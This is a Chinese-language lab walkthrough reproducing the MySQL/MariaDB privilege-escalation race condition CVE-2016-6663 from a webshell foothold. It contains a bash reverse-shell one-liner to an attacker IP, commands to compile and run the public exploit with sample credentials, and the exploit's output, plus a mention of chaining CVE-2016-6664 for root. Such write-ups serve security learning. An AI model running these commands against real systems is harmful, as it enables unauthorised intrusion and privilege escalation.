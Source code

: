 下面我们来复现该漏洞。

**实验环境：**

- 目标机IP：192.168.1.10
- 攻击机IP：192.168.1.7

假设我们已经通过蚁剑获得了目标主机的webshell权限。

首先，我们先下载一个C脚本 [mysql-privesc-race.c](https://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html)，通过蚁剑将编译将其上传到目标主机。然后执行如下命令反弹个shell获取目标主机的交互环境：

```
bash -c "bash -i >& /dev/tcp/192.168.1.7/2333 0>&1"
```

![image-20210125142800069](assets/1611564743_600e86c7915cdb5da9b55.png!small)

然后执行如下命令将上传的攻击脚本编译生成我们的exp程序：

```
gcc mysql-privesc-race.c -o mysql-privesc-race -I/usr/include/mysql -lmysqlclient
```

![image-20210125142914734](assets/1611564745_600e86c9776cead288bcc.png!small)

最后，在shell环境中执行的exp程序：

```
./mysql-privesc-race whoami 123456 localhost whoami_db
```

- whoami：已经拿到了一个低权限（CREATE/INSERT/SELECT权限）的 MySQL 用户名
- 123456：低权限 MySQL 用户的密码
- localhost：数据库地址
- whoami_db：属于whoami用户的数据库

执行成功后会获得一个mysql权限，要想提升到系统root权限还需要配合CVE-2016-6664漏洞，大概如下：

```
www-data@xenial:~/mysql-exploit$ time ./mysql-privesc-race www-data pocsql localhost pocdb

MySQL/PerconaDB/MariaDB - Privilege Escalation / Race Condition PoC Exploit
mysql-privesc-race.c (ver. 1.0)

CVE-2016-6663 / OCVE-2016-5616

For testing purposes only. Do no harm.

Discovered/Coded by:

Dawid Golunski 
http://legalhackers.com


[+] Starting the exploit as: 
uid=33(www-data) gid=33(www-data) groups=33(www-data)

[+] Connecting to the database `pocdb` as www-data@localhost
[+] Creating exploit temp directory /tmp/mysql_privesc_exploit
[+] Creating mysql tables 

DROP TABLE IF EXISTS exploit_table 
DROP TABLE IF EXISTS mysql_suid_shell 
CREATE TABLE exploit_table (txt varchar(50)) engine = 'MyISAM' data directory '/tmp/mysql_privesc_exploit' 
CREATE TABLE mysql_suid_shell (txt varchar(50)) engine = 'MyISAM' data directory '/tmp/mysql_privesc_exploit' 

```